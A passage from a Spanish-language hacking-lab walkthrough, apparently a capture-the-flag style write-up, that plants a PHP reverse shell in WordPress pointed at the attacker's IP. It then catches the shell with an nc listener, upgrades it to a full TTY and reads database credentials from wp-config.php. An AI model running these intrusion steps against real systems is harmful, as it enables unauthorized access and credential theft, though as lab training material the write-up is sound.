 Usando la Reverse que podemos encontrar en el enlace de pentestmonkey simplemente deberemos de cambiar la dirección y el puerto al cual apunta la reverse, la dirección sera la IP de nuestra maquina atacante y el puerto podemos poner cualquiera ya que posteriormente lo estableceremos en nuestra maquina en escucha. (No pongáis un puerto que ya tengáis ocupado en la maquina atacante)

[pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![reverse shell en wordpress.png](Images_Walktrough_Hacking_Machine/reverse_shell_en_wordpress.png)

Una vez hemos establecido nuestro payload ponemos la maquina kali en escucha, esto lo haremos gracias a la utilidad que viene incorporada en nuestra maquina kali llamado nc.

```bash
nc -nvlp "port"
```

---

### MYSQL

Cuando conseguimos acceso a la maquina con wordpress veremos que no tenemos una shell completa esto lo sabremos por que solo vemos el simbolo $ en nuestro prompt.

![image-20230315161757372](../assets/Walktrough_Hacking_machine/image-20230315161757372.png)

Esto podemos solucionarlo con los siguientes comandos los cuales permitirá que tengamos una Shell completamente funcional.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

Si miramos nuestro prompt vemos que hemos ganado acceso como www-data el cual es el usuario por defecto que tiene asignado el servicio web, es por ello que el primer paso seria comprobar si tenemos acceso a este directorio para buscar información sobre la maquina.

Nos situamos en el directorio de wordpress /var/www/wordpress y dentro de este miramos el contenido de wp-config.php, este archivo contiene la información sobre las conexiones que se realizan a la bdd que corre de fondo por lo que si el administrador no ha encriptado la contraseña y esta escrita en claro conseguiremos unas credenciales nuevas.

```php
/ ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'Subiela' );

/** Database password */
define( 'DB_PASSWORD', 'ElCarli' );

/** Database hostname */
define( 'DB_HOST', 'localhost' );
```
